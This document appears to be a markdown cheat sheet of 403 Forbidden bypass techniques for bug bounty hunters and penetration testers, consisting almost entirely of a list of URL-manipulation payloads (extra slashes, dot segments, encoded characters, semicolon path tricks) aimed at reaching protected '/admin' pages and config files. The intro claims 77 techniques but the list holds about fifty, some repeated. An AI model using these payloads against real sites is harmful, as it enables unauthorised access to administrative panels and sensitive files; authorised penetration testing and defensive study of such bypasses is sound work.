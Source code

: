 # 403 Bypass

Below is an extensive and updated reference for 403 (Forbidden) bypass techniques and tricks for bug bounty hunters and penetration testers. 

## Url Manipulation Methods

# Seclists jhaddix list 

Below are the top 77 ways to bypass access control on incorrectely protected pages. These work best on config files and global dashboards. 

```
url.com/admin/?
url.com//admin//
url.com///admin///
url.com/./admin/./
url.com/admin?
url.com/admin??
url.com/admin??
url.com/admin/?/
url.com/admin/??
url.com/admin/??/
url.com/admin/..
url.com/admin/../
url.com/admin/./
url.com/admin/.
url.com/admin/.//
url.com/admin/*
url.com/admin//*
url.com/admin/%2f
url.com/admin/%2f/
url.com/admin/%20
url.com/admin/%20/
url.com/admin/%09
url.com/admin/%09/
url.com/admin/%0a
url.com/admin/%0a/
url.com/admin/%0d
url.com/admin/%0d/
url.com/admin/%25
url.com/admin/%25/
url.com/admin/%23
url.com/admin/%23/
url.com/admin/%26
url.com/admin/%3f
url.com/admin/%3f/
url.com/admin/%26/
url.com/admin/#
url.com/admin/#/
url.com/admin/#/./
url.com/./admin
url.com/./admin/
url.com/..;/admin
url.com/..;/admin/
url.com/.;/admin
url.com/.;/admin/
url.com/;/admin
url.com/;/admin/
url.com//;//admin
url.com//;//admin/
url.com/admin/./
```